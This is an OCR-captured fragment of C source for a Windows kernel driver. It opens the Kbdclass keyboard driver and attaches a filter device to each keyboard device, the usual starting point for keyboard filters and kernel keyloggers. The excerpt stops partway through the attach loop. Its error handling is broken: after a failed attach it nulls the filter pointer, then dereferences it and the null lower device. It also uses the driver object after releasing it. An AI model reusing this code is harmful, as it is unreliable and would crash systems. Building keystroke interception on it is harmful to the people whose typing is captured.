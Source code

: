 ```
NTSTATUS entrydevices(PDEV_EXTEN devext, PDEVICE_OBJECT filterdevice, PDEVICE_OBJECT targetdevice, PDEVICE_OBJECT lowdevice)
{
	memset(devext, 0, sizeof(DEV_EXTEN));
	devext->filterdevice = filterdevice;
	devext->targetdevice = targetdevice;
	devext->lowdevice = lowdevice;
	devext->size = sizeof(DEV_EXTEN);
	KeInitializeSpinLock(&devext->IoRequestsSpinLock);
	KeInitializeEvent(&devext->IoInProgressEvent, NotificationEvent, FALSE);
	return STATUS_SUCCESS;
}

NTSTATUS attachDevice(PDRIVER_OBJECT driver, PUNICODE_STRING reg_path)
{
	NTSTATUS status;

	UNREFERENCED_PARAMETER(reg_path);

	UNICODE_STRING kbdname = RTL_CONSTANT_STRING(L"\\Driver\\Kbdclass");
	PDEV_EXTEN drvext;
	PDEVICE_OBJECT filterdevice;
	PDEVICE_OBJECT targetdevice;
	PDEVICE_OBJECT lowdevice;
	PDRIVER_OBJECT kbddriver;

	status = ObReferenceObjectByName(&kbdname, OBJ_CASE_INSENSITIVE, NULL, 0, *IoDriverObjectType, KernelMode, NULL, &kbddriver);
	if (!NT_SUCCESS(status))
	{
		KdPrint(("Open driver failed\n"));
		return status;
	}
	else
	{
		ObDereferenceObject(kbddriver);
	}

	targetdevice = kbddriver->DeviceObject;
	while (targetdevice)
	{
		status = IoCreateDevice(driver, sizeof(DEV_EXTEN), NULL, targetdevice->DeviceType, targetdevice->Characteristics, FALSE, &filterdevice);
		if (!NT_SUCCESS(status))
		{
			KdPrint(("create device failed\n"));
			filterdevice = NULL;
			targetdevice = NULL;
			return status;
		}
		lowdevice = IoAttachDeviceToDeviceStack(filterdevice, targetdevice);
		if (!lowdevice)
		{
			KdPrint(("Attach Failed\n"));
			filterdevice = NULL;
		}

		drvext = (PDEV_EXTEN)filterdevice->DeviceExtension;
		entrydevices(drvext, filterdevice, targetdevice, lowdevice);
		filterdevice->DeviceType = lowdevice->DeviceType;
		filterdevice->Characteristics = lowdevice->Characteristics;
		filterdevice->StackSize = lowdevice->StackSize + 1;
```